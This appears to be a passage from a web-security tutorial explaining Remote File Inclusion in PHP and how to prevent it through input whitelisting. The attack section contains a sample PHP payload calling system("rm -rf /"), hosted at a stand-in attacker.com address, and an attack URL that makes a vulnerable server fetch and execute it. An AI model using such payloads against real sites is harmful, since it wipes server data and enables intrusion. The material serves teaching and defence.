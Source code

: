 ### **How an attacker exploits RFI:**

1. **Attacker preparation:** The attacker creates a small file with malicious PHP code and hosts it on their own web server, e.g. at `https://attacker.com/my_malware.txt`: 

    >**PHP**

    ```php
    <?php
    echo "<h1>Your website has been hacked!</h1>";
    system("rm -rf /"); // Extremely dangerous command: deletes the entire file system!
    ?>
    ```

(The file extension doesn’t matter, since the victim application will interpret the content as PHP code.)

2. **Attack on your website:** The attacker calls your site with this URL:  <br> `https://your-website.com/load.php?source=https://attacker.com/my_malware.txt` 

- **What happens internally:**
  - The variable `$resource` gets the value  <br> `https://attacker.com/my_malware.txt`
  - The `include()` statement on your server loads the content of this external URL.
  - Since `allow_url_include` is `On`, your server interprets the downloaded content as PHP code and **executes it**.
- **Result:** The message *Your website has been hacked!* appears, and (in the worst case) the dangerous command `system("rm -rf /");` is executed, which could **wipe all server data**. **This is direct Remote Code Execution.**

---

## **How to fix File Inclusion vulnerabilities?**

The good news is these vulnerabilities are **preventable!** The golden rule of IT security: **Never trust user input!** Apply these principles consistently:

#### **1. Always validate and filter input (the absolute foundation!)**

This is the most important measure. Make sure every input you get from a user (via URLs, forms, or other sources) is exactly what you expect and contains nothing malicious.

- **A) Whitelisting (the safest method):**
  - Only allow an **explicitly defined list** of values. Reject everything else.
  - **Example for LFI protection:**

    > **PHP**

    ```php
    <?php
    // page.php - SECURE CODE WITH WHITELISTING
    $allowed_pages = ['home', 'contact', 'about_us', 'imprint'];
    $section = $_GET['part'];

    if (in_array($section, $allowed_pages)) {
        // Only if the value is in the allowed list, include the file
        include($section . '.html');
    } else {
        // Otherwise, show an error or redirect to a default page
        echo "Error: The requested page is not available.";
        // Or header("Location: /404.html");
    }
    ?>
    ```
